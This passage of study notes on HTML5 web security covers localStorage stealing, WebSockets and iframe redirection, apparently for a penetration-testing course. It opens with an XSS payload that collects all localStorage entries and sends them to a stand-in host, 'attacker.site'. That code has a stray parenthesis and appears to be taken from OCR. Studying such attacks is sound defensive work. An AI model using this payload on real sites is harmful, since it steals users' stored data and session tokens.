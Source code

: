 ```
var i = 0;
var stor = "";
var img = new Image();
while (localStorage.key(i) != null)
{
 var key = localStorage.key(i); 
 stor += key + ": " + localStorage.getItem(key)) + "\n";
 i++;
}
img.src="http://attacker.site?steal.php?storage=" + stor;
</script>
```

***
4. WebSockets
- The WebSocket protocol features:
	1. Connection established by upgrading an existing HTTP connection to WebSocket
	2. Supported by browsers --> ws://, wss:// "secure"
	3. HTTP standard ports 80,443, This means: no firewall issues for the users
	4. Full-duplex-->The protocol allow communication in both directions simultaneously
- To connect to a WebSocket server : 
    `var ws = new WebSocket('ws://<WebSocketServerURL>');`
- To receive notifications about the opened connection use the onopen event listener:
```
ws.onopen = function(e) {
alert("Connection established");
// send a message
this.send('<your message>');
}
```
- To receive notifications about new messages use the onmessage event listener:
```
ws.onmessage = function(e) {
alert("Received message");
// read the message
var msg= e.data;
alert(msg);
}
```

- Security Issues
- If developers do not sanitize lead to XSS, localStorage stealing, SQL injections and more
***
5. Sandboxed frames
1. Redirection
	- A classic issue occurs when a website hosts third-party contents through iframes.
	- `location` is an exception to the SOP
	- An iframe could redirect visitors to an arbitrary website by simply setting the location property of its parent document.
	- Example : If a web page (index.html) includes an attacker controlled page (evil.html) in an iframe, the attacker can change the window.location and redirect users to an attacker controlled site (http://attacker.site/). : 
	![[Pasted image 20220408105700.png]]
